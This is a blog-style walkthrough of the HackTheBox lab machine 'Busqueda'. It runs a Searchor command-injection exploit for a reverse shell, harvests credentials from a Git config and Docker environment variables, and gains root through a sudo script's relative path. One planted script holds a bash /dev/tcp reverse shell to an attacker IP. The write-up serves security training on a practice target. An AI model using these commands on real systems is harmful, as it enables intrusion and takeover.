 
---
title: "Busqueda"
summary: "Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module to gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service."
categories: ["Post","Blog",]
tags: ["post","linux ","hackthebox"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-06

---

| Machine Info         |              |
| -------------------- | ------------ |
| **Platform**         | HackTheBox   |
| **Operative System** | Linux        |
| **Difficulty**       | Easy         |
| **IP**               | 10.10.11.208 |
- - -
## Enumeration

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that the web on port 80 redirects to **searcher.htb**. Let's add it to `/etc/hosts`.

As soon as we land on the page, we see the following:
![Busqueda1](img/busqueda/busqueda1.png)

A quick look shows the version of the App that is running behind this website, which is **Searchor 2.4.0**. If we look for vulnerabilities, we find the following [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Exploitation
Let's run the exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

We put a `netcat` listener to receive the connection:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646         
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

We succesfully enter the machine as user **svc** .
```bash
svc@busqueda:~$ cat user.txt
cat user.txt
75a17...8bd3e
```
- - -
## Privilege Escalation
Looking though the system files, we find a `.git` with credentials in the **app** folder.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
	repositoryformatversion = 0
	...
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

The user is **cody** and the password is **jh1usoih2bkjaspwe92** for an application in a subdomain called **gitea**. Let's add it to the `/etc/hosts` and take a look.

![Busqueda2](img/busqueda/busqueda2.png)

Inside here, we don't find anything interesing, appart that we can see a user called **administrator**. Although, we can try to SSH with the **svc** user and **cody's** password:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208                   
svc@10.10.11.208's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  ...

Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
```

Let's check the sudo privileges that this user has:

```bash
svc@busqueda:/opt/scripts$ sudo -l

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

This user has the right to execute that script inside **/opr/scripts**.

If we run it, we can see the following options:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

After some investigation, we discover the `docker-inspect` option can be use to retrieve information from the docker containers that are running in the machine, before seen with the  `docker-ps` option.


```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```

It looks like we find more credentials for the **gitea** application. Let's try to log in as **administrator**
with these credentials.

![Busqueda3](img/busqueda/busqueda3.png)

Nice! Now we can check the content of the **scripts** in the **/opt** folder.

Reading the script `system-checkup.py` script we notice that the `full-checkup.sh` script is referenced as if it was in the same folder:

```
...
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
...
```

We can abuse this by creating our own malicious script and reference it, as we are executing it with sudo privileges:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh 

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Keep in mind that you need to grant execution privileges to the script to run, as this was a mistake of mine that took me quite a lot of time to figure out.

Now, we set a `netcat` listener and execute the malicious script:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

In the `netcat` we receive the root shell:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

Nice! We rooted the machine.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```
